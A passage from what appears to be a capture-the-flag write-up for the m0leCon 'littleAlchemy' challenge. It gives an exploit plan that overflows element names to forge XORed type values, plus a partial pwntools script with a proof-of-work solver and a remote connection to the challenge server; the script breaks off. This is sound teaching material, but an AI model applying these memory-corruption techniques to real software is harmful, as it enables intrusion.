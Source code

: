 - Create three elements.
- Edit the name of the first one, overwriting the second and the third; set the type of them to two different numbers that, when xored, will give `-2**61+10`.
- Combine the second and third element, which would result in a new element of type `10`.

This plan worked, and since the program prints the newly created element's name, we just had to read it.

### Exploit script

```python
#!/usr/bin/env python3

from pwn import *

import hashlib
from itertools import product

exe = ELF("./littleAlchemy")

context.binary = exe

def solve_pow(start_string, hash_end):
    for chars in product(string.ascii_letters, repeat=4):
        candidate = start_string + bytes(map(ord, chars))
        m = hashlib.sha256()
        m.update(candidate)
        if m.hexdigest().endswith(hash_end):
            print(f'POW solved: {candidate}')
            return candidate

    return None


def conn():
    if args.LOCAL:
        return process([exe.path])
    else:
        p = remote("challs.m0lecon.it", 2123)
        p.recvuntil("Give me a string starting with ")
        start_string = p.recvuntil(" ")[:-1]
        p.recvuntil('such that its sha256sum ends in ')
        hash_end = p.recvuntil('.')[:-1].decode()
        p.sendline(solve_pow(start_string, hash_end))
        return p


def main():
    r = conn()

    def create_element(pos, source_1, source_2):
        r.sendlineafter(">", "1")
        r.sendlineafter(": ", str(pos))
        r.sendlineafter("]:", str(source_1))
        r.sendlineafter("]:", str(source_2))

    def edit_element(pos, new_name):
        r.sendlineafter(">", "4")
        r.sendlineafter(": ", str(pos))
        r.sendlineafter(": ", new_name)

    # good luck pwning :)

    type1 = (2**64-2**61+10) ^ 0x4242424242424242
```
